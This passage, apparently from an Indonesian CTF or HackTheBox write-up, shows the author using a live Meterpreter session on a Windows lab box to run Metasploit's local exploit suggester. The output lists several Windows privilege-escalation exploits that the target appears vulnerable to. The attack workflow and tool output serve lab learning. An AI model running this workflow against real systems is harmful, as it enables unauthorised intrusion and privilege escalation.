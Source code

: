 Saya berhasil mendapatkan akses server tersebut, namun disini saya harus melakukan privilege escalation untuk mendapatkan akses sepenuhnya dari target. disini saya menggunakan module post **multi/recon/local_exploit_suggester** yang dimana modul ini melakukan pengecheckan terhadap potensi kerentanan lokal

```bash
msf6 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.15:4444 -> 10.129.136.185:49173  (10.129.136.185)

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.136.185 - Collecting local exploits for x86/windows...
[*] 10.129.136.185 - 40 exploit checks are being tried...
[+] 10.129.136.185 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.136.185 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.136.185 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```
